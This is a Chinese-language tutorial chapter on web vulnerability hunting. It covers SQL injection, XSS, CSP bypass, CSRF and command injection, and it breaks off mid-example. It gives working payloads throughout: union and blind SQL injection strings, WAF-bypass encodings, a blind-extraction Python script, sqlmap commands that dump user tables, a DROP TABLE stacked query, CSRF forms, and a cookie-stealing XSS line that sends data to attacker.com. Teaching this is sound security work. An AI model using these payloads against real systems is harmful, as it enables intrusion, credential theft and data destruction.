

# 第10章：Web 漏洞挖掘（上）

难度：⭐⭐⭐  
预计时间：120分钟

---

## 10.1 Web 漏洞概述

Web 应用作为互联网最核心的组成部分，承载着越来越多的关键业务。然而，随着Web技术的快速发展，Web漏洞的数量和复杂度也在持续上升。本章将深入讲解Web漏洞挖掘的核心技术，帮助安全研究人员建立系统的漏洞挖掘方法论。

### 10.1.1 OWASP Top 10 2021 解读

OWASP（Open Web Application Security Project）Top 10 是国际公认的Web应用安全风险权威指南。2021年版相比2017年版有重要变化：

| 排名 | 漏洞类型 | 说明 | 风险等级 |
|------|---------|------|---------|
| A01 | 失效的访问控制 | 权限验证不当导致未授权访问 | 严重 |
| A02 | 加密失败 | 敏感数据保护不足 | 严重 |
| A03 | 注入攻击 | SQL/NoSQL/LDAP等注入 | 严重 |
| A04 | 不安全设计 | 设计缺陷导致的安全问题 | 高 |
| A05 | 安全配置错误 | 默认配置、调试模式等 | 高 |
| A06 | 自带危险组件 | 使用已知漏洞的组件 | 高 |
| A07 | 身份识别和认证失败 | 认证机制缺陷 | 高 |
| A08 | 软件和数据完整性故障 | CI/CD流水线、自动更新问题 | 高 |
| A09 | 安全日志和监控失败 | 缺乏有效监控和响应 | 中 |
| A10 | 服务端请求伪造(SSRF) | 攻击者诱导服务器发起请求 | 中 |

!!! tip "重点变化"
    2021年版新增了"不安全设计"（A04）和"软件和数据完整性故障"（A08）两个类别，反映了现代Web应用安全的新趋势。同时，SSRF首次进入Top 10，说明这类漏洞在实际利用中越来越常见。

#### 关键变化趋势

1. **访问控制问题上升至首位**：随着微服务架构和API的普及，访问控制问题变得更加复杂和普遍
2. **设计层面问题受到重视**：传统的安全测试主要关注代码实现，现在更强调安全设计
3. **供应链安全凸显**：开源组件的安全问题频发，成为重要攻击面

### 10.1.2 Web 漏洞分类

为了更系统地进行漏洞挖掘，我们需要对Web漏洞进行科学分类。常见的分类方式包括：

#### 按漏洞成因分类

**注入类漏洞**：
- SQL注入：恶意SQL代码插入到应用输入参数中
- NoSQL注入：针对MongoDB、Redis等NoSQL数据库的注入
- LDAP注入：利用LDAP查询语句的漏洞
- XPath注入：针对XML数据的注入攻击
- OS命令注入：在应用中注入系统命令
- 代码注入：直接注入并执行代码（PHP、Python、Java等）

**逻辑类漏洞**：
- 越权访问：未授权或越权访问敏感功能
- 业务逻辑绕过：支付绕过、积分套利等
- 并发竞争：条件竞争导致的问题
- 流程跳跃：跳过关键验证步骤
- 参数篡改：修改关键业务参数

**配置类漏洞**：
- 敏感信息泄露：源码、备份文件、错误信息
- 默认配置：默认密码、开放调试端口
- HTTP头配置不当：CORS、CSP配置错误
- 云服务配置错误：S3桶权限、API密钥泄露

**设计类漏洞**：
- 认证机制缺陷：弱密码策略、会话固定
- 授权设计不当：权限模型缺陷
- 加密算法选择不当：使用弱加密或自定义加密
- API设计缺陷：过度数据暴露、批量分配

#### 按攻击面分类

- **前端攻击面**：XSS、CSRF、DOM操作
- **后端攻击面**：注入、文件操作、反序列化
- **API攻击面**：RESTful API、GraphQL、SOAP
- **基础设施攻击面**：服务器配置、中间件漏洞

### 10.1.3 漏洞挖掘基本流程

一个系统的漏洞挖掘流程可以显著提高效率和覆盖率。



#### 1. 信息收集阶段

信息收集是漏洞挖掘的基础，目标是全面了解目标应用的技术栈、架构和潜在攻击面。

**被动信息收集**：
- 搜索引擎侦察（Google Hacking）
- 公开数据源（Shodan、Censys、Fofa）
- DNS和子域名枚举
- 社交媒体和代码仓库（GitHub、GitLab）

**主动信息收集**：
- 端口扫描和服务识别
- Web爬虫和目录爆破
- 指纹识别（CMS、框架、中间件）
- API文档发现（Swagger、Postman Collection）

!!! example "Google Hacking 示例"
    ```
    site:target.com filetype:php
    site:target.com inurl:admin
    site:target.com "powered by"
    site:target.com ext:sql OR ext:backup OR ext:bak
    ```

#### 2. 攻击面分析

在收集到足够信息后，需要识别所有可能的攻击入口点：

- **用户输入点**：表单、URL参数、HTTP头、Cookie
- **文件上传点**：头像上传、附件上传、导入功能
- **API接口**：RESTful端点、GraphQL查询、WebSocket
- **管理界面**：后台登录、运维面板、监控页面
- **第三方集成**：OAuth、SSO、支付网关

#### 3. 漏洞探测

根据攻击面分析结果，有针对性地测试各类漏洞：

- **手工测试**：模拟真实攻击场景，理解漏洞原理
- **自动化工具**：使用SQLMap、Burp Suite、OWASP ZAP等
- **模糊测试**：使用Fuzzer生成大量异常输入
- **代码审计**：如果有源码，进行白盒测试

#### 4. 漏洞验证与利用

发现潜在漏洞后，需要验证其真实性和可利用性：

- **证明漏洞存在**：提供PoC（概念验证）
- **评估影响范围**：确定漏洞的严重程度
- **尝试深入利用**：获取敏感数据或执行命令
- **记录利用条件**：明确复现步骤

#### 5. 编写报告

专业的漏洞报告应包含：

- **漏洞概述**：简明描述漏洞类型和位置
- **复现步骤**：详细的复现过程（含截图）
- **漏洞证明**：PoC代码或请求示例
- **影响评估**：CVSS评分和业务影响
- **修复建议**：具体的修复方案

---

## 10.2 SQL 注入深度挖掘

SQL注入（SQL Injection）是最古老也最常见的Web漏洞之一。尽管防护技术不断进步，SQL注入仍然在高危漏洞中占据重要位置。

### 10.2.1 原理与分类

#### 基本原理

SQL注入发生在应用程序将用户输入直接拼接到SQL语句中，而没有进行充分的过滤和转义。

**漏洞示例代码（PHP）**：

```php
// 不安全的代码示例
$username = $_GET['username'];
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($conn, $query);
```

**攻击示例**：

```
正常请求：
http://target.com/user.php?username=admin

攻击请求：
http://target.com/user.php?username=admin' OR '1'='1
```

拼接后的SQL语句：

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
```

由于 `'1'='1'` 永远为真，将返回所有用户数据。

#### SQL注入分类

根据不同的利用方式和数据传输通道，SQL注入可以分为以下几类：

**In-band SQL注入**：
攻击者和数据库在同一通信信道内交互。

1. **基于错误的注入（Error-based）**：利用数据库错误信息获取数据，适用于详细错误信息未关闭的场景。
   示例：`' AND extractvalue(1,concat(0x7e,version())) -- `

2. **联合查询注入（Union-based）**：使用UNION关键字合并查询结果，需要确定列数和可显示字段。
   示例：`' UNION SELECT 1,2,3 -- `

**Blind SQL注入**：
无法直接看到查询结果，通过应用响应推断。

1. **布尔盲注（Boolean-based）**：根据页面返回内容真假判断，使用条件语句如 `AND 1=1` 和 `AND 1=2`。
   示例：`' AND (SELECT COUNT(*) FROM users)>0 -- `

2. **时间盲注（Time-based）**：通过延迟函数判断条件真假，使用 `SLEEP()`、`BENCHMARK()` 等函数。
   示例：`' AND SLEEP(5) -- `

**Out-of-band SQL注入**：
通过外部信道（DNS、HTTP）获取数据，适用于In-band通道被阻断的场景。

- MySQL示例：`LOAD_FILE()` + DNSlog
- MSSQL示例：`xp_dirtree` + DNSlog
- Oracle示例：`UTL_HTTP.request`

!!! warning "实战技巧"
    在真实环境中，Blind SQL注入比In-band更常见，因为：
    1. 错误信息通常被关闭或自定义
    2. UNION查询可能受到WAF或输入长度限制
    3. 时间盲注可以绕过大多数过滤机制

### 10.2.2 手工测试技术

虽然自动化工具（如SQLMap）很强大，但手工测试仍然是漏洞挖掘的必备技能。

#### 1. 探测注入点

**步骤1：识别输入参数**

常见的输入点包括：
- GET参数：`?id=1&name=test`
- POST参数：表单字段、JSON body
- HTTP头：User-Agent、Referer、Cookie
- 文件路径：URL路径、文件名

**步骤2：注入测试字符**

使用以下字符测试是否存在注入：

| 测试字符 | 说明 | 预期响应 |
|---------|------|---------|
| `'` | 单引号 | 数据库错误 |
| `"` | 双引号 | 数据库错误 |
| `#` | MySQL注释 | 语法错误 |
| `-- ` | SQL注释 | 语法错误 |
| `\` | 反斜杠 | 转义错误 |
| `;` | 语句结束 | 语法错误 |
| `)` | 括号闭合 | 语法错误 |

**步骤3：确认注入类型**

```sql
-- 数字型注入测试
?id=1 AND 1=1  --  正常
?id=1 AND 1=2  --  异常

-- 字符型注入测试
?name=admin' AND '1'='1  --  正常
?name=admin' AND '1'='2  --  异常

-- 搜索型注入测试
?keyword=%' AND 1=1 --  --  正常
?keyword=%' AND 1=2 --  --  异常
```

#### 2. Union注入技术

Union注入是最直接的注入方式，可以获取数据库中的任意数据。

**步骤1：确定查询列数**

使用 `ORDER BY` 或 `UNION SELECT` 猜解列数：

```sql
-- 方法1：ORDER BY
' ORDER BY 1 --   (正常)
' ORDER BY 2 --   (正常)
' ORDER BY 3 --   (正常)
' ORDER BY 4 --   (错误，说明有3列)

-- 方法2：UNION SELECT
' UNION SELECT 1 --         (错误，列数不对)
' UNION SELECT 1,2 --       (错误)
' UNION SELECT 1,2,3 --     (正常，说明有3列)
```

**步骤2：确定可显示字段**

```sql
' UNION SELECT 1,2,3 -- 
```

观察页面，看哪个数字位置被显示出来。假设第2、3列被显示，则可以在这两个位置注入敏感函数。

**步骤3：提取数据**

```sql
-- 获取数据库版本和用户
' UNION SELECT 1,version(),user() -- 

-- 获取当前数据库名
' UNION SELECT 1,database(),3 -- 

-- 获取所有数据库名
' UNION SELECT 1,schema_name,3 FROM information_schema.schemata -- 

-- 获取表名
' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database() -- 

-- 获取列名
' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users' -- 

-- 获取用户数据
' UNION SELECT 1,concat(username,':',password),3 FROM users -- 
```

!!! tip "MySQL技巧"
    - 使用 `GROUP_CONCAT()` 一次性获取多行数据
    - 使用 `HEX()` 编码绕过特殊字符过滤
    - 使用 `@@version`、`@@datadir` 等全局变量

#### 3. 错误注入技术

当应用显示数据库错误信息时，可以利用错误提取数据。

**MySQL错误注入函数**：

```sql
-- extractvalue() (MySQL 5.1+)
' AND extractvalue(1,concat(0x7e,version())) -- 

-- updatexml() (MySQL 5.1+)
' AND updatexml(1,concat(0x7e,database()),1) -- 

-- floor() + rand() + group by (MySQL所有版本)
' AND (SELECT 1 FROM (SELECT count(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) -- 

-- exp() (MySQL < 5.5.53)
' AND exp(~(SELECT * FROM (SELECT version())a)) -- 
```

**MSSQL错误注入**：

```sql
-- 使用CONVERT()
' AND 1=CONVERT(int,(SELECT @@version)) -- 

-- 使用cast()
' AND 1=cast((SELECT top 1 table_name FROM information_schema.tables) as int) -- 
```

#### 4. 布尔盲注技术

当无法直接从页面获取数据时，可以通过真假条件判断数据。

**基本思路**：

```sql
-- 判断数据库名长度
' AND length(database())>5 --  (页面正常)
' AND length(database())>10 -- (页面异常)

-- 逐字符猜解数据库名
' AND ascii(substr(database(),1,1))>97 --  (第1个字符ASCII>97, 即'a')
' AND ascii(substr(database(),1,1))=109 -- (第1个字符是'm')
```

**Python自动化脚本示例**：

```python
import requests
import time

url = "http://target.com/product.php"
result = ""

for i in range(1, 20):
    for c in range(32, 127):
        payload = f"1' AND ascii(substr(database(),{i},1))={c} -- "
        params = {"id": payload}
        r = requests.get(url, params=params)
        
        if "Product Name" in r.text:  # 根据正常页面特征判断
            result += chr(c)
            print(f"[+] Database name: {result}")
            break
        time.sleep(0.1)
```

#### 5. 时间盲注技术

当页面没有真假差异时，可以使用时间延迟判断。

**MySQL时间盲注**：

```sql
-- 基本语法
' AND SLEEP(5) -- 

-- 条件延迟
' AND IF(length(database())>5,SLEEP(5),1) -- 

-- 逐字符猜解
' AND IF(ascii(substr(database(),1,1))=109,SLEEP(5),1) -- 
```

**其他数据库时间函数**：

| 数据库 | 延迟函数 |
|-------|---------|
| MySQL | `SLEEP()`、`BENCHMARK()` |
| MSSQL | `WAITFOR DELAY '0:0:5'` |
| PostgreSQL | `PG_SLEEP()` |
| Oracle | `DBMS_LOCK.SLEEP()` |

!!! warning "注意"
    时间盲注受网络延迟影响，可能产生误判。建议：
    1. 多次测试取平均值
    2. 使用较长的延迟时间（如5秒）
    3. 结合其他盲注方式交叉验证

### 10.2.3 WAF 绕过技术

Web应用防火墙（WAF）是现代Web安全的重要防护手段。了解WAF绕过技术对于成功利用SQL注入至关重要。

#### 1. 编码绕过

**URL编码**：

```
原始：' UNION SELECT 1,2,3 -- 
编码：%27%20UNION%20SELECT%201%2C2%2C3%20--%20
```

**双重URL编码**：

```
原始：' UNION SELECT
一次编码：%27%20UNION%20SELECT
二次编码：%2527%2520UNION%2520SELECT
```

**十六进制编码**：

```sql
-- 原始
' UNION SELECT 1,database(),3 -- 

-- 十六进制
' UNION SELECT 1,0x6461746162617365,3 -- 
(0x6461746162617365 = 'database')
```

**Unicode编码**：

```
空格 -> %u0020
单引号 -> %u0027
```

#### 2. 注释绕过

利用SQL注释符分割关键字：

```sql
-- MySQL注释
' /**/UNION/**/SELECT /**/1,2,3 -- 
' /*!UNION*/ /*!SELECT*/ 1,2,3 -- 
' /*!50000UNION*/ /*!50000SELECT*/ 1,2,3 -- 

-- MSSQL注释
' /**/UNION/**/SELECT/**/1,2,3 -- 

-- Oracle注释
' UNION -- comment
SELECT 1,2,3 FROM DUAL -- 
```

!!! tip "MySQL版本号注释"
    `/*!50000 ... */` 表示版本号≥5.00.00时执行
    可以用来绕过对特定关键字的检测

#### 3. 空格绕过

当空格被过滤时，可以使用其他空白字符替代：

| 替代字符 | 说明 |
|---------|------|
| `%09` | TAB键 |
| `%0a` | 换行 |
| `%0b` | 垂直TAB |
| `%0c` | 换页 |
| `%0d` | 回车 |
| `%a0` | 不间断空格 |
| `/**/` | 注释（可作为空格） |
| `()` | 括号（某些位置可替代空格） |

**示例**：

```sql
'/*comment*/UNION/*comment*/SELECT/*comment*/1,2,3 -- 
'%0aUNION%0aSELECT%0a1,2,3 -- 
'()UNION()SELECT()1,2,3 -- 
```

#### 4. 关键字绕过

**大小写混淆**：

```sql
' UnIoN SeLeCt 1,2,3 -- 
```

**双写关键字**（针对只替换一次的WAF）：

```sql
' UNIONUNION SELECTSELECT 1,2,3 -- 
```

**同义词替换**：

```sql
-- 使用HEX或CHAR函数替代字符串
' UNION SELECT 1,0x61646D696E,3 -- 

-- 使用数学运算
' UNION SELECT 1,2+3,4-1 -- 

-- 使用内联注释
' /*!12345UNION*/ /*!12345SELECT*/ 1,2,3 -- 
```

**逗号绕过**（针对过滤逗号的情况）：

```sql
-- 使用FROM...FOR替代
' UNION SELECT 1,2,3 -- 
' UNION SELECT * FROM (SELECT 1) a JOIN (SELECT 2) b JOIN (SELECT 3) c -- 

-- 使用LIMIT的另一种写法
' SELECT 1,2,3 FROM users LIMIT 1 OFFSET 0 -- 
```

#### 5. 高级绕过技术

**参数污染（HPP）**：

```
正常：?id=1
污染：?id=1&id=2' UNION SELECT 1,2,3 -- 
```

某些WAF只检测第一个参数，而应用使用第二个参数。

**协议层绕过**：

- 修改Content-Type（如从application/x-www-form-urlencoded改为multipart/form-data）
- 使用chunked传输编码
- 修改请求方法（GET改为POST）

**机器学习WAF绕过**：

现代WAF使用机器学习检测攻击，可以通过以下方式绕过：

1. **正常流量伪装**：使攻击载荷看起来像正常输入
2. **渐进式攻击**：分多步完成攻击，每一步都看似无害
3. **使用罕见payload**：避免常见攻击特征

### 10.2.4 实战：SQLMap 高级用法

SQLMap是自动化的SQL注入工具，掌握其高级用法可以大幅提升效率。

#### 1. 基本用法

```bash
# 基本检测
sqlmap -u "http://target.com/product.php?id=1"

# 指定数据库类型
sqlmap -u "http://target.com/product.php?id=1" --dbms=mysql

# 检测所有参数
sqlmap -u "http://target.com/search.php?keyword=test&category=1" --all-params

# 使用Cookie
sqlmap -u "http://target.com/admin.php?id=1" --cookie="PHPSESSID=abc123"
```

#### 2. Tamper脚本

Tamper脚本用于修改Payload，绕过WAF过滤。

**常用Tamper脚本**：

- `apostrophemask.py`：将单引号转换为UTF-8，绕过单引号过滤
- `base64encode.py`：Base64编码，绕过关键字检测
- `between.py`：用BETWEEN替换>和<，绕过比较运算符过滤
- `charencode.py`：URL编码，绕过WAF
- `charunicodeencode.py`：Unicode编码，绕过WAF
- `commalessmid.py`：去除逗号，逗号被过滤
- `equaltolike.py`：用LIKE替换=，等号被过滤
- `greatest.py`：用GREATEST()替换>，大于号被过滤
- `space2comment.py`：用注释替换空格，空格被过滤
- `space2plus.py`：用+替换空格，空格被过滤
- `unmagicquotes.py`：用宽字节绕过魔术引号，PHP magic_quotes_gpc

**使用多个Tamper脚本**：

```bash
sqlmap -u "http://target.com/product.php?id=1" --tamper=space2comment,randomcase,charunicodeencode
```

#### 3. 自定义注入点

当自动检测无法发现注入时，可以手动指定注入点。

**使用星号（*）标记注入点**：

```bash
# 在URL中标记
sqlmap -u "http://target.com/product.php?id=1*" --dbs

# 在POST数据中标记
sqlmap -u "http://target.com/login.php" --data="username=admin*&password=123" --dbs

# 在Cookie中标记
sqlmap -u "http://target.com/admin.php" --cookie="id=1*; PHPSESSID=abc" --dbs
```

**使用-r参数从文件读取请求**：

```bash
# 保存完整HTTP请求到文件
cat > request.txt << EOF
POST /login.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

username=admin&password=123
EOF

# 使用-r参数
sqlmap -r request.txt --dbs
```

#### 4. 高级技巧

**二阶注入检测**：

```bash
# 启用二阶注入检测
sqlmap -u "http://target.com/register.php" --data="username=test" --second-order="http://target.com/profile.php"
```

**DNS外带数据**：

```bash
# 使用DNSlog平台（如ceye.io）
sqlmap -u "http://target.com/product.php?id=1" --dns-domain="your-domain.ceye.io"
```

**从数据库提取数据**：

```bash
# 获取所有数据库
sqlmap -u "http://target.com/product.php?id=1" --dbs

# 获取指定数据库的表
sqlmap -u "http://target.com/product.php?id=1" -D database_name --tables

# 获取指定表的列
sqlmap -u "http://target.com/product.php?id=1" -D database_name -T users --columns

# 获取表数据
sqlmap -u "http://target.com/product.php?id=1" -D database_name -T users -C username,password --dump
```

!!! danger "法律和道德提醒"
    使用SQLMap进行渗透测试前，必须：
    1. 获得明确授权
    2. 在授权范围内测试
    3. 避免破坏性和数据泄露行为
    4. 及时报告发现的问题

### 10.2.5 二次注入、堆叠注入、宽字节注入

#### 1. 二次注入（Second-Order Injection）

二次注入是指攻击者存入恶意数据，这些数据显示时被应用程序使用，形成注入。

**原理**：

1. 攻击者将恶意Payload存入数据库（如注册用户名为 `admin'-- `）
2. 应用程序后续使用这些数据时（如修改密码），未做充分过滤
3. Payload被拼接进SQL语句，形成注入

**示例场景**：

```php
// 注册时，用户名被存入数据库
$username = $_POST['username'];  // admin'--
$query = "INSERT INTO users (username, password) VALUES ('$username', '$password')";
mysqli_query($conn, $query);

// 修改密码时，从数据库取出用户名
$query = "SELECT username FROM users WHERE id = " . $_SESSION['user_id'];
$result = mysqli_query($conn, $query);
$row = mysqli_fetch_assoc($result);
$username = $row['username'];  // admin'--

// 使用用户名修改密码（存在注入）
$new_password = $_POST['new_password'];
$query = "UPDATE users SET password = '$new_password' WHERE username = '$username'";
// 实际执行：UPDATE users SET password = 'xxx' WHERE username = 'admin'-- '
mysqli_query($conn, $query);
```

**挖掘技巧**：

- 关注用户可控的存储型数据：用户名、签名、地址等
- 关注使用这些数据的功能：修改密码、个人资料编辑等
- 尝试在注册/提交时插入Payload，在使用时观察响应

#### 2. 堆叠注入（Stacked Queries）

堆叠注入是指在一个SQL语句中执行多条查询，用分号（;）分隔。

**原理**：

```sql
-- 正常查询
SELECT * FROM products WHERE id = 1;

-- 堆叠查询
SELECT * FROM products WHERE id = 1; DROP TABLE users;
```

**支持情况**：

| 数据库 | 是否支持堆叠查询 |
|-------|----------------|
| MySQL (mysqli_multi_query) | 是（需特定函数） |
| MSSQL | 是 |
| PostgreSQL | 是 |
| Oracle | 否 |

**利用场景**：

```sql
-- 修改数据
'; UPDATE users SET password = 'attacker_hash' WHERE username = 'admin' -- 

-- 插入数据
'; INSERT INTO users (username, password) VALUES ('attacker', 'password') -- 

-- 删除数据
'; DROP TABLE users -- 
```

!!! warning "注意"
    堆叠注入虽然强大，但实际应用中受限较多：
    1. 多数数据库默认不支持堆叠查询
    2. 即使支持，后续查询的结果可能无法直接获取
    3. 常用于盲注或配合时间延迟验证

#### 3. 宽字节注入

宽字节注入是针对PHP使用宽字节字符集（如GBK）时的特殊注入方式。

**原理**：

当PHP开启 `magic_quotes_gpc` 或使用 `addslashes()` 函数时，单引号（'）会被转义为 `'`。

攻击者可以输入 `%df'` ，经过转义后变为 `%df'` 。

如果字符集是GBK，`%df%5c` 会被解释为汉字 `運` ，从而吃掉反斜杠，使单引号生效。

**示例**：

```php
// 漏洞代码
mysql_query("SET NAMES 'gbk'");
$username = addslashes($_GET['username']);
$query = "SELECT * FROM users WHERE username = '$username'";
```

**攻击**：

```
正常输入：username=admin'
转义后：  username=admin'
最终查询：SELECT * FROM users WHERE username = 'admin''

攻击输入：username=admin%df'
转义后：  username=admin%df'
编码后：  username=admin%df%5c%27
GBK解释： username=admin运'  （%df%5c = 运）
最终查询：SELECT * FROM users WHERE username = 'admin运''  （单引号生效！）
```

**防御宽字节注入**：

1. 使用UTF-8字符集
2. 设置 `mysql_set_charset('utf8')`
3. 使用预处理语句（Prepared Statement）
4. 升级PHP版本（新版本已移除magic_quotes_gpc）

---

## 10.3 XSS 与 CSRF

跨站脚本攻击（XSS）和跨站请求伪造（CSRF）是Web应用中最常见的前端漏洞。

### 10.3.1 XSS 三种类型

#### 1. 反射型 XSS（Reflected XSS）

反射型XSS的Payload在请求中，服务器将其"反射"到响应中，不经过存储。

**攻击流程**：

1. 攻击者构造恶意链接：`http://target.com/search.php?keyword=<script>alert(1)</script>`
2. 诱导受害者点击该链接
3. 服务器将keyword参数原样返回在页面中
4. 受害者浏览器执行恶意脚本

**示例**：

```php
// 漏洞代码（search.php）
$keyword = $_GET['keyword'];
echo "<p>搜索结果：" . $keyword . "</p>";
```

**攻击请求**：

```
http://target.com/search.php?keyword=<script>alert(document.cookie)</script>
```

**挖掘技巧**：

- 搜索功能、错误页面、重定向功能是常见反射点
- 观察URL参数是否原样出现在页面中
- 使用XSS Polyglot测试

#### 2. 存储型 XSS（Stored XSS）

存储型XSS的Payload被存储在服务器上（数据库、文件系统等），每次访问时都会触发。

**攻击流程**：

1. 攻击者提交恶意Payload（如评论、用户名、签名）
2. Payload被存储在服务器
3. 受害者访问包含该Payload的页面
4. 恶意脚本在受害者浏览器执行

**示例**：

```php
// 漏洞代码（comment.php）
$comment = $_POST['comment'];
$query = "INSERT INTO comments (content) VALUES ('$comment')";
mysqli_query($conn, $query);

// 显示评论（view.php）
$query = "SELECT content FROM comments";
$result = mysqli_query($conn, $query);
while ($row = mysqli_fetch_assoc($result)) {
    echo "<div>" . $row['content'] . "</div>";
}
```

**攻击Payload**：

```html
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
```

**挖掘技巧**：

- 重点关注用户生成内容的功能：评论、留言、文章发布等
- 测试所有可存储的用户输入点：用户名、签名、头像URL等
- 注意富文本编辑器，可能存在HTML标签过滤不完善

#### 3. DOM型 XSS（DOM-based XSS）

DOM型XSS的漏洞在客户端JavaScript代码中，Payload不经过服务器，直接通过修改DOM触发。

**攻击流程**：

1. 页面JavaScript从URL（如 `location.hash`）读取数据
2. 未经过滤直接插入到DOM中
3. 恶意脚本被执行

**示例**：

```html
<!-- 漏洞代码 -->
<script>
    var keyword = location.hash.substring(1);
    document.getElementById("result").innerHTML = "搜索结果：" + keyword;
</script>
```

**攻击URL**：

```
http://target.com/#<script>alert(1)</script>
```

**常见Sink（危险函数）**：

- `innerHTML`：设置HTML内容
- `outerHTML`：设置包括自身在内的HTML
- `document.write()`：写入HTML
- `eval()`：执行JavaScript代码
- `setTimeout()`：延迟执行代码
- `location`：跳转URL
- `location.href`：设置URL

!!! tip "DOM XSS挖掘技巧"
    1. 使用浏览器开发者工具搜索危险Sink
    2. 跟踪数据流：从Source到Sink是否经过过滤
    3. 使用Chrome DevTools的DOM Snapshot功能
    4. 关注单页应用（SPA），它们大量使用JavaScript操作DOM

### 10.3.2 绕过过滤

现代Web应用通常会对用户输入进行过滤和转义，但攻击者可以使用各种技巧绕过。

#### 1. 编码绕过

**HTML实体编码**：

```html
<!-- 原始 -->
<script>alert(1)</script>

<!-- HTML实体编码 -->
&lt;script&gt;alert(1)&lt;/script&gt;

<!-- 十进制编码 -->
&#60;script&#62;alert(1)&#60;/script&#62;
```

**URL编码**：

```
javascript:alert(1)
%6a%61%76%61%73%63%72%69%70%74:%61%6c%65%72%74%281%29
```

**Unicode编码**：

```
<script> -> <script>
```

#### 2. 标签和属性绕过

**使用不常见标签**：

```html

<svg/onload=alert(1)>
<body onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<input onfocus=alert(1) autofocus>
```

**使用事件处理器**：

| 事件 | 说明 |
|-----|------|
| `onload` | 元素加载完成 |
| `onerror` | 元素加载错误 |
| `onclick` | 鼠标点击 |
| `onmouseover` | 鼠标悬停 |
| `onfocus` | 元素获得焦点 |

#### 3. 字符串拼接和混淆

**JavaScript字符串拼接**：

```javascript
// 原始
alert(1)

// 字符串拼接
window['al'+'ert'](1)

// 使用反引号
`${alert(1)}`
```

### 10.3.3 CSP 绕过

内容安全策略（Content Security Policy, CSP）是一种防御XSS的机制，通过白名单控制资源加载和执行。

#### CSP基本语法

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'
```

**常用指令**：

- `default-src`：默认策略
- `script-src`：控制JavaScript来源
- `style-src`：控制CSS来源
- `img-src`：控制图片来源
- `connect-src`：控制AJAX、WebSocket等

**常用关键字**：

- `'self'`：允许同源资源
- `'none'`：不允许任何资源
- `'unsafe-inline'`：允许内联脚本/样式
- `'unsafe-eval'`：允许eval()等动态代码

#### CSP绕过技术

**1. 利用 `unsafe-inline`**

如果CSP包含 `'unsafe-inline'`，可以直接执行内联脚本。

**2. 利用JSONP端点**

如果CSP允许从某些域名加载脚本，且这些域名存在JSONP端点，可以利用。

```html
<script src="https://cdn.com/jsonp?callback=alert"></script>
```

**3. 利用 `script-src 'self'` 和上传功能**

如果站点有文件上传功能，且上传的文件可以被解释为JavaScript（如 `.js` 文件），则可以绕过。

**4. 利用AngularJS**

如果页面使用了AngularJS，且CSP允许内联脚本或存在JSONP端点，可以绕过。

```html
<div ng-app ng-csp>
    {{constructor.constructor('alert(1)')()}}
</div>
```

### 10.3.4 CSRF 原理与利用

跨站请求伪造（Cross-Site Request Forgery, CSRF）迫使已认证的用户在不知情的情况下执行恶意操作。

#### 基本原理

**攻击流程**：

1. 用户登录信任站点 `target.com`，获得Cookie
2. 用户访问恶意站点 `attacker.com`
3. 恶意站点向 `target.com` 发起请求（如转账、修改密码）
4. 浏览器自动携带 `target.com` 的Cookie
5. `target.com` 认为请求是用户发起的，执行操作

**示例**：

```html
<!-- 恶意页面（attacker.com） -->
<body onload="document.forms[0].submit()">
    <form action="https://bank.com/transfer" method="POST">
        <input type="hidden" name="to" value="attacker">
        <input type="hidden" name="amount" value="10000">
    </form>
</body>
```

#### CSRF利用 - POC编写

**1. GET型CSRF**

```html

<iframe src="https://target.com/change-password?new_password=attacker123" style="display:none"></iframe>
```

**2. POST型CSRF**

```html
<body onload="document.getElementById('csrf-form').submit()">
    <form id="csrf-form" action="https://target.com/change-password" method="POST">
        <input type="hidden" name="new_password" value="attacker123">
    </form>
</body>
```

#### CSRF防护机制

**1. CSRF Token**

CSRF Token是最有效的防护机制。

```php
// 生成Token
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// 验证Token
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die('CSRF validation failed');
}
```

**2. SameSite Cookie**

SameSite是Cookie的一个属性，可以限制Cookie在跨站请求中是否被发送。

| 模式 | 说明 |
|-----|------|
| `Strict` | 完全禁止第三方Cookie |
| `Lax` | 允许安全的跨站请求（如链接跳转）携带Cookie |
| `None` | 允许所有跨站请求携带Cookie（需配合 `Secure`） |

**3. Referer和Origin校验**

检查请求是否来自信任的源。

```php
$referer = $_SERVER['HTTP_REFERER'] ?? '';
if (strpos($referer, 'https://target.com') !== 0) {
    die('Invalid Referer');
}
```

---

## 10.4 命令注入与代码注入

命令注入和代码注入是高危漏洞，攻击者可以直接在服务器上执行系统命令或代码。

### 10.4.1 OS 命令注入

OS命令注入（OS Command Injection）是指攻击者能够在服务器上执行任意系统命令。

#### 原理与示例

**漏洞代码（PHP）**：

```php
// 不安全的代码示例
$ip = $_GET['ip'];
system("ping -c 4 " . $ip);
```

**攻击请求**：

```
